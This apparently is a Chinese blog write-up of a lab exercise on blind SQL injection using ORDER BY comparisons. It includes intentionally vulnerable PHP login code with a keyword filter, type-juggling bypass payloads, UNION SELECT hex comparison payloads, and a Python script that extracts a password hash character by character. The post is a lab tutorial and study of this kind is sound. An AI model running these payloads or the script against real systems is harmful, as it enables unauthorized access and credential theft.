


Title: 基于order by的盲注
Date: 2017-11-23
slug: order-by-blind
Category: SQL


<http://wonderkun.cc/index.html/?p=547>
源代码:

```
<?php
  $dbhost = "172.19.0.2";
  $dbuser = "root";
  $dbpass = "root";
  $db = "vul";
  $conn = mysqli_connect($dbhost,$dbuser,$dbpass,$db);
  mysqli_set_charset($conn,"utf8");
 
  /* sql
 
     create  table `admin` (
        `id` int(10) not null primary key auto_increment,
        `username` varchar(20) not null ,
        `password` varchar(32) not null
     );
  */
function   filter($str){
      $filterlist = "/\(|\)|username|password|where|
      case|when|like|regexp|into|limit|=|for|;/";
      if(preg_match($filterlist,strtolower($str))){
        die("illegal input!");
      }
      return $str;
  }
$username = isset($_POST['username'])?
filter($_POST['username']):die("please input username!");
$password = isset($_POST['password'])?
filter($_POST['password']):die("please input password!");
$sql = "select * from admin where  username =
 '$username' and password = '$password' ";
 
$res = $conn -> query($sql);
if($res->num_rows>0){
  $row = $res -> fetch_assoc();
  if($row['id']){
     echo $row['username'];
  }
}else{
   echo "The content in the password column is the ";
}
 
?>
```

在上面这个源代码里面，要首先猜解出username的值，文章里面给的payload是

```
username='^1^1#&password=1
```

其实上面的payload初看是不太懂的，才想起来mysql里面弱类型转换的问题，如下：



就是sql语句查询如果username是0的话，所有结果就出来了，那么把这个username变成0，上面的语句都可以做到：

```
select * from admin where username=''*0
select * from admin where username=''/2
select * from admin where username=''^1^1
select * from admin where username=''-''
```

然后是基于order by的盲注：

首先是基本知识:

```
import sting
string.maketrans('','')[33:127]
'!"#$%&\'()*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\\]^_`abcdefghijklmnopqrstuvwxyz{|}~'
```

mysql里面的字符串会默认按照上面这个数值的大小从小到大排列，看下图：



比719大的字符串是`719;`，但是直接比较的话，mysql是会出错的。所以需要转换为16进制来比较。

总的来说就是拿16进制之后的字符串和admin的密码进行比较，比admin大的话，按照上面php的逻辑，在username为admin2的情况下


```
username=admin2' union select 1,2,0x37313921 order by 3 desc#&password=1 //返回结果admin2

username=admin2' union select 1,2,0x3731393B order by 3 desc#&password=1 //返回结果是2

```

另外跑出来的都会是大写，看下面的语句:

```
mysql> select hex('c');
+----------+
| hex('c') |
+----------+
| 63       |
+----------+
1 row in set (0.00 sec)

mysql> select hex('C');
+----------+
| hex('C') |
+----------+
| 43       |
+----------+
1 row in set (0.00 sec)

mysql> select * from admin   where id=2 union select 1,2,0x3731393563 order by 3 desc;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  2 | admin2   | 7195ca99696b5a896d067a0fa9dc61a6 |
|  1 | 2        | 7195c                            |
+----+----------+----------------------------------+
2 rows in set (0.00 sec)

mysql> select * from admin   where id=2 union select 1,2,0x3731393543 order by 3 desc;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  2 | admin2   | 7195ca99696b5a896d067a0fa9dc61a6 |
|  1 | 2        | 7195C                            |
+----+----------+----------------------------------+
2 rows in set (0.00 sec)
```

在mysql里面大小写比较是一样的，即使实际上`c`的hex要比`C`大，在python脚本里面按照排列算的话，大写在前面。

<del>
貌似这里可以分辨大小写的，因为大小写中间有
[\]^_`
字符串，拿这个和他比。所以比较的时候要出现两次，第一次肯定是大写，如果再和上面的字符串hex比较，结果一样的话
</del>

上面实际测试，大小写和`^`比较结果一样，然后费了点时间自己下个脚本复现了下，最后的脚本(中间加的没用的东西是自己调试用的）:

```
#/usr/bin/env python
# coding: utf-8

import string
import requests

cest = string.maketrans('', '')[33:127]
url = "http://127.0.0.1/c.php"
res = ''
i = 0
while 1:
	# payload = res.strip('').encode('hex') + cest[i:i+1].encode('hex')
	payload = (res + cest[i:i+1]).encode('hex')
	tmp = {'username': "admin' union select 1,2,0x"+ payload + " order by 3 desc#", "password": '1'}
	req = requests.post(url, data=tmp, headers={"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"} )
	c = req.content
	b = req.content.find('admin')
	if req.content.find('admin') != -1:
		i += 1
		continue
	else:
		res = res + chr(ord(cest[i]) - 1)
		print res
		i = 0
```

最后，如果要实战中成功条件：

* 确定union的列数
* 有二值判断的逻辑存在

貌似没了。。。想到再补充吧。
